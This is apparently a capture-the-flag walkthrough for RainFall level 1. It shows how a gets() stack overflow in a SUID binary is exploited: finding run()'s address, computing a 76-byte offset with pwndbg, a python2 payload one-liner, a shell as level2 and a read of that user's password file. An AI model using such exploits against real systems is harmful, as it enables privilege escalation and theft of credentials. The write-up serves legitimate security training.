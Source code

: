 # Walkthrough for Level 1

## Overview

`level1` is a SUID binary owned by `level2`, so it runs with `level2`'s permissions when executed by any user.

```shell
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

## Understanding the Binary

After decompiling the `level1` binary with [Ghidra](https://github.com/NationalSecurityAgency/ghidra), we find two
functions: `main` and `run`.

The `main` function gets user input using the `gets` function and stores it in a buffer of 76 bytes. Since `gets` does
not check the length of the input, this program is vulnerable to a buffer overflow attack.

The `run` function spawns a shell and, since the SETUID is set for this binary, and it belongs to `level2`, the shell
will run with the `level2` privileges. However, the `fun` function is never called directly in our regular program flow.
We need to overwrite the return address of the `main` function with the address of the `run` function to execute it.
To do this, we need to craft an input that fills the buffer and then overwrites the return address of `main` with the
address of the `run` function.

## Finding the Address of `run`

We get the address of the `run` function using GDB; in this case, it is 0x08048444.

```shell
level1@RainFall:~$ gdb ./level1 
...SNIP...
(gdb) info fun
All defined functions:

Non-debugging symbols:
0x080482f8  _init
...SNIP...
0x08048444  run
0x08048480  main
...SNIP...
```

## Calculating the Instruction Pointer Offset

[Pwndbg](https://github.com/pwndbg/pwndbg) is a Python module that adds useful utilities and enhancements to GDB and
LLDB, making these debuggers easier to use. 
Inside we find `Pwn cyclic` which is a tool used to identify the exact location of a buffer overflow.

It works by generating a sequence of unique patterns, which can be inputted into a program. Once the buffer overflow is
achieved, the crash dump will contain part of this unique pattern. By analyzing the crash dump, we can pinpoint the
exact offset where the buffer overflow occurred.

```shell
┌──(kali㉿kali)-[~/rainfall/level1]
└─$ gdb ./level1       
...SNIP...
pwndbg> cyclic 80
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa
pwndbg> run
Starting program: /home/kali/rainfall/level1/level1 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
─────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────────────────────────────────────
 EAX  0xffffd1c0 ◂— 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaa'
 EBX  0xf7f99e14 (_GLOBAL_OFFSET_TABLE_) ◂— 0x232d0c /* '\x0c-#' */
 ECX  0xf7f9b8ec (_IO_stdfile_0_lock) ◂— 0
 EDX  0
 EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
 ESI  0x80484a0 (__libc_csu_init) ◂— push ebp
 EBP  0x61616173 ('saaa')
 ESP  0xffffd210 ◂— 0
 EIP  0x61616174 ('taaa')
...SNIP...
```

The register we are interested in is the EIP (Extended Instruction Pointer) register, which contains the address of the
next instruction to be executed. We see that the EIP register contains the value 'taaa'. Using the cyclic -l command, we
can find the offset in the cyclic pattern that corresponds to this value. In this case, the offset is 76 bytes.

```shell
pwndbg> cyclic -l taaa
Finding cyclic pattern of 4 bytes: b'taaa' (hex: 0x74616161)
Found at offset 76
```

## Crafting the Exploit

We use Python to create an exploit consisting of 76 'A's followed by the address of the `run` function in little-endian
format, with the intention of overwriting the EIP register and redirecting the program flow to the `run` function.
We save the result to the file `/tmp/exploit1`.

```shell
┌──(kali㉿kali)-[~/rainfall/level1]
└─$ python2 -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/exploit1 
```

## Executing `run` function

We use the `cat` command with the `-` option to keep STDIN open, since the shell executed by the `run` function needs an
interactive terminal to work properly. Once we run our exploit successfully, we can use the `id` command to verify that
the shell is running as the `level2` user. 

```shell
level1@RainFall:~$ cat /tmp/exploit1 - | ./level1
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
```

## Getting the Password

Finally, we can read the `.pass` file of `level2` to complete the level.

```shell
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

We can now log in via SSH as the `level2` user using the password we just found.
